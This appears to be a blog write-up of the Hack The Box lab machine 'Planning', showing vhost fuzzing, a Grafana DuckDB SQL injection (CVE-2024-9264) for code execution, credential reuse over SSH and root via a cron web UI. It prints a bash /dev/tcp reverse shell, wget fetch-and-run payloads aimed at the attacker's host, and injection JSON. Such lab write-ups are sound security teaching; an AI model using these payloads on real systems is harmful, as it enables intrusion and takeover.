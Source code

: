 ```yaml
---
layout: post
title: "HTB-Planning"
description: Walkthrough writeup of HTB-Planning
---
```


<p>In Planning, we found Grafana via vhost fuzzing, exploited SQLi for RCE, found credentials for SSH, and escalated to root through a cronjob UI.</p>

<h2>Introduction</h2>

<p>In this post, I will demonstrate the exploitation of an easy machine called "Planning" on hack the box. Overall, it was a relatively easy box once the correct wordlist was used to enumerate vhosts. In summary, I enjoyed this box and it was a good learning experience. I pwnd this box on July 1 2025.</p>

<h2> Step 1: Running an Nmap scan on the target</h2>
<p>As always, we start with an Nmap scan on the target. I like to use the options -sC and -sV to run some Nmap scripts and do service detection, respectively. This allows us to capture a lot of information as a starting point.</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -p- 10.10.11.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 04:46 EDT
Nmap scan report for 10.10.11.68
Host is up (0.0097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.59 seconds
</pre>
<p>On this box, we have an ssh service running as well as an nginx webservice. We are also being redirected to http://planning.htb. Therefore, we need to add this to our hosts file (sudo vim /etc/hosts).</p>
<p>After adding the hostname to the hosts file. I like to run the nmap scan again to see if we get more data:</p>
<pre>
└─$ nmap -sV -sC -p- planning.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-17 04:48 EDT
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds
</pre>
<p>Doing this additional scan, I found out that it runs an Edukate online education website.</p>

<h2>Step 2: Exploring and enumerating the website</h2>
<p>Upon visiting the website, we are greeted with the Edukate welcome page:</p>
<img src="/images/planning/planning_website.webp" alt="Edukate Welcome Page" class="postImage">
<p>Exploration of the webpage did not yield anything that could be used as an attack vector at first sight. Here, I struggled a bit. I did a ffuf scan to enumerate potential vhosts. However, the wordlist I first used was insufficient and did not return anything. Being a bit desperate, I tried a few other wordlists and finally got a hit:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ ffuf -u http://planning.htb/ -H "Host: FUZZ.planning.htb" -w /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt:FUZZ -fs 178          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/combined_subdomains.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 12ms]
:: Progress: [653920/653920] :: Job [1/1] :: 4081 req/sec :: Duration: [0:02:43] :: Errors: 0 ::
</pre>
<p>After adding this to our hosts file (sudo vim /etc/hosts), surfing to the domain yields the following login page:</p>
<img src="/images/planning/planning_grafana_login.webp" alt="grafana login page" class="postImage"  style="height:60%; width:60%;">
<p>Note, the version is listed at the bottom: v11.0.0. The description of this box grants us the login details which we can use to login to the grafana webinterface:</p>
<img src="/images/planning/planning_grafana_webinterface.webp" alt="grafana webinterface" class="postImage">

<h2> Step 3: Gaining access</h2>
<p>First thing I did was checking whether there is a known vulnerability for Grafana v11.0.0. It seems that we are in luck! There is a known RCE exploit for this version of Grafana: <span class="url"><a href="https://github.com/nollium/CVE-2024-9264">Grafana Post-Auth DuckDB SQL Injection</a></span>. Initial testing of the exploit script revealed that it is executed successfully:</p>
<pre>
┌──(venv-ten)(kali㉿kali)-[/opt/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c id http://grafana.planning.htb                                                   
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: id
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
uid=0(root) gid=0(root) groups=0(root)
</pre>
<p>Next, I created a simple bash reverse shell script:</p>
<pre>
#!/bin/bash
bash -i >& /dev/tcp/&lt;IP-Address&gt;/&lt;Port&gt; 0>&1
</pre>
<p>I upload this .sh file using wget after initializing a Python server on my kali attacking machine:</p>
<pre>
python3 -m http.server &lt;port&gt;
</pre>
<pre>
──(venv-ten)(kali㉿kali)-[/opt/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "wget 10.10.14.47:7000/shell.sh" http://grafana.planning.htb                                  
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: wget 10.10.14.47:7000/shell.sh
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('wget 10.10.14.47:7000/shell.sh >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
--2025-08-17 10:22:51--  http://10.10.14.47:7000/shell.sh
Connecting to 10.10.14.47:7000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 54 [text/x-sh]
Saving to: 'shell.sh'

     0K                                                       100% 3.46M=0s

2025-08-17 10:22:51 (3.46 MB/s) - 'shell.sh' saved [54/54]
</pre>
<p>After initializing our netcat listener, we gain a reverse shell by executing the following command: </p>
<pre>
┌──(venv-ten)(kali㉿kali)-[/opt/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "bash shell.sh" http://grafana.planning.htb                                  
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: bash shell.sh
</pre>
<p>The following reverse shell spawned:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.47] from (UNKNOWN) [10.10.11.68] 51570
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~# 
</pre>
<h2> Step 4: Lateral privilege escalation to Enzo</h2>
<p>Checking the environment variable revealed some credentials:</p>
<pre>
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/tmp
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
OLDPWD=/home/grafana
</pre>
<p>Using these credentials, we can successfully login using ssh:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ ssh enzo@10.10.11.68
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Aug 17 10:44:08 AM UTC 2025

  System load:  0.0               Processes:             293
  Usage of /:   68.0% of 6.30GB   Users logged in:       0
  Memory usage: 55%               IPv4 address for eth0: 10.10.11.68
  Swap usage:   0%

  => There are 47 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

102 updates can be applied immediately.
77 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Aug 17 10:44:09 2025 from 10.10.14.47
</pre>
<p>Here, we obtain the user flag:</p>
<pre>
enzo@planning:~$ ls
user.txt
</pre>
<h2> Step 5: Privilege escalation to root</h2>
<p>Exploration of the /opt directory revealed a crontab.db file. Catting this file exposed a password:</p>
<pre>
enzo@planning:/opt/crontabs$ cat crontab.db 
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily","stopped":false,"timestamp":"Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740774983276,"saved":false,"_id":"GTI22PpoJNtRKg0W"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *","stopped":false,"timestamp":"Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)","logging":"false","mailing":{},"created":1740849309992,"saved":false,"_id":"gNIRXh1WIc9K7BYX"}
</pre>
<p>Next, I checked the directory for the backup file but unfortunately, it was not there:</p>
<pre>
enzo@planning:~$ cd /var/backups/
enzo@planning:/var/backups$ ls
alternatives.tar.0     apt.extended_states.0     dpkg.arch.1.gz     dpkg.diversions.1.gz  dpkg.statoverride.1.gz  dpkg.status.1.gz
alternatives.tar.1.gz  apt.extended_states.1.gz  dpkg.arch.2.gz     dpkg.diversions.2.gz  dpkg.statoverride.2.gz  dpkg.status.2.gz
alternatives.tar.2.gz  apt.extended_states.2.gz  dpkg.arch.3.gz     dpkg.diversions.3.gz  dpkg.statoverride.3.gz  dpkg.status.3.gz             
alternatives.tar.3.gz  apt.extended_states.3.gz  dpkg.arch.4.gz     dpkg.diversions.4.gz  dpkg.statoverride.4.gz  dpkg.status.4.gz             
alternatives.tar.4.gz  apt.extended_states.4.gz  dpkg.arch.5.gz     dpkg.diversions.5.gz  dpkg.statoverride.5.gz  dpkg.status.5.gz             
alternatives.tar.5.gz  dpkg.arch.0               dpkg.diversions.0  dpkg.statoverride.0   dpkg.status.0
</pre>
<p>Checking TCP and UDP sockets revealed some interesting entries:</p>
<pre>
enzo@planning:/opt/crontabs$ ss -tulnp
Netid              State                Recv-Q               Send-Q                             Local Address:Port                              Peer Address:Port              Process              
udp                UNCONN               0                    0                                     127.0.0.54:53                                     0.0.0.0:*                                      
udp                UNCONN               0                    0                                  127.0.0.53%lo:53                                     0.0.0.0:*                                      
tcp                LISTEN               0                    151                                    127.0.0.1:3306                                   0.0.0.0:*                                      
tcp                LISTEN               0                    4096                               127.0.0.53%lo:53                                     0.0.0.0:*                                      
tcp                LISTEN               0                    70                                     127.0.0.1:33060                                  0.0.0.0:*                                      
tcp                LISTEN               0                    4096                                   127.0.0.1:41495                                  0.0.0.0:*                                      
tcp                LISTEN               0                    4096                                  127.0.0.54:53                                     0.0.0.0:*                                      
tcp                LISTEN               0                    511                                      0.0.0.0:80                                     0.0.0.0:*                                      
tcp                LISTEN               0                    4096                                   127.0.0.1:3000                                   0.0.0.0:*                                      
tcp                LISTEN               0                    511                                    127.0.0.1:8000                                   0.0.0.0:*                                      
tcp                LISTEN               0                    4096                                           *:22                                           *:*  
</pre>
<p>Next, using the following command, I forwarded the internal server on port 8000 to my local machine over ssh:</p>
<pre>
──(kali㉿kali)-[~]
└─$ ssh -L 1234:127.0.0.1:8000 enzo@10.10.11.68
enzo@10.10.11.68's password: 
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Aug 17 11:14:13 AM UTC 2025

  System load:  0.0               Processes:             303
  Usage of /:   68.4% of 6.30GB   Users logged in:       1
  Memory usage: 52%               IPv4 address for eth0: 10.10.11.68
  Swap usage:   3%

  => There are 47 zombie processes.


Expanded Security Maintenance for Applications is not enabled.

102 updates can be applied immediately.
77 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Aug 17 11:14:14 2025 from 10.10.14.47
enzo@planning:~$ 
</pre>
<p>Doing this, we can access the server by surfing to localhost:1234. There, we are greeted with a login page:</p>
<img src="/images/planning/planning_internal_webserver_login.webp" alt="Internal webserver login" class="postImage">
<p>After trying some password and username combinations, It seems we can login as root using the password we found in the crontab.db file: P4ssw0rdS0pRi0T3c.</p>
<img src="/images/planning/planning_crontab_UI.webp" alt="Cronjob page" class="postImage">
<p>Using this page, we can run scheduled commands. Therefore, creating a reverse shell cronjob should grant us root access to the box as these cronjobs are executed as root. Let's give it a try! First, start a netcat listener:</p>
<pre>
nc -lnvp &lt;port&gt;
</pre>
<p>Next, create a reverse shell payload using the cron UI:</p>
<img src="/images/planning/planning_getting_root_cronjob.webp" alt="Getting root cronjob" class="postImage">
<p>After running our cronjob, we are granted a root shell!</p>
<pre>
└─$ nc -lnvp 5555
listening on [any] 5555 ...
connect to [10.10.14.79] from (UNKNOWN) [10.10.11.68] 46322
bash: cannot set terminal process group (1438): Inappropriate ioctl for device
bash: no job control in this shell
root@planning:/# ls /root
$ls /root
root.txt
scripts

</pre>
<p>Congratulations, you have successfully rooted this box!</p>

<h2> Extra: Manual exploitation</h2>
<p>As already stated multiple times on this blog, I'm not a fan of blindly running exploit scripts. I'm convinced it is more educational to do it manually and thus craft your own payloads even if they are based on the exploit script. Therefore, I have also exploited this box manually through Burpsuite.</p>
<p>The first step is to navigate to the Grafana admin panel and go to "Dashboards". From there, create a new visualization and intercept with Burpsuite:</p>
<img src="/images/planning/planning_dashboards.webp" alt="Grafana dashboard creation" class="postImage">
<p>Clicking the add visualization button should add the following request in Burpsuite:</p>
<pre>
POST /api/ds/query?ds_type=datasource&requestId=Q103 HTTP/1.1
</pre>
<p>Send it to the repeater tab and modify the JSON in the body as follows:</p>
<pre>
{
  "queries": [
    {
      "refId": "B",
      "datasource": {
        "type": "__expr__",
        "uid": "__expr__",
        "name": "Expression"
      },
      "type": "sql",
      "hide": false,
      "expression": "SELECT content FROM read_blob(\"./conf/ldap.toml\")",
      "window": ""
    }
  ],
  "from": "1729313027261",
  "to": "1729334627261"
}
</pre>
<p>Using the expression parameter, we can now execute DuckDB SQL-queries. Apparently, DuckDB has a community extension called "shellfs", which allows to execute system commands: <span class="url"><a href="https://github.com/query-farm/shellfs">DuckDB shellfs extension</a></span>. On the github page, we find the following: "By appending a pipe character | to a filename, DuckDB will treat it as a series of commands to execute and capture the output". Thus, appending a pipe results in a command being executed. This can then be used to upload a reverse shell as follows:</p>
<pre>
"SELECT 1; install shellfs from community; LOAD shellfs; SELECT * FROM read_csv('wget &lt;IP-Adress&gt;&lt;port&gt;/shell.sh -O /tmp/shell.sh |')"
</pre>
<p>Don't forget to start a Python server in the directory that contains the reverse shell payload.</p>
<pre>
python3 -m https.server &lt;port&gt;
</pre>
<p>In Burpsuite, the payload looks like this:</p>
<img src="/images/planning/planning_manual_exploitation_uploading_shell_burp.webp" alt="Burpsuite uploading shell" class="postImage">
<p>Once uploaded, we need to execute the shell. This can be done with the following payload:</p>
<pre>
"SELECT 1; install shellfs from community; LOAD shellfs; SELECT * FROM read_csv('bash /tmp/shell.sh |')"
</pre>
<p>In burpsuite:</p>
<img src="/images/planning/planning_manual_exploitation_executing_shell_burp.webp" alt="Burpsuite executing reverse shell" class="postImage">
<p>Don't forget to start the netcat listener before execution:</p>
<pre>
nc- lnvp &lt;port&gt;
</pre>
<p>Congratulations, you should now have a shell through manual exploitation:</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.81] from (UNKNOWN) [10.10.11.68] 36038
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
</pre>

<h2>Final thoughts</h2>
<p>Overall, This was a nice and easy box. Nevertheless, It was good to further sharpen my skills and grow more comfortable with the CTF landscape. Additionally, the manual exploitation was a bit harder and therefore it was a good challenge.</p>
<a href="/">Go to the Home Page</a>

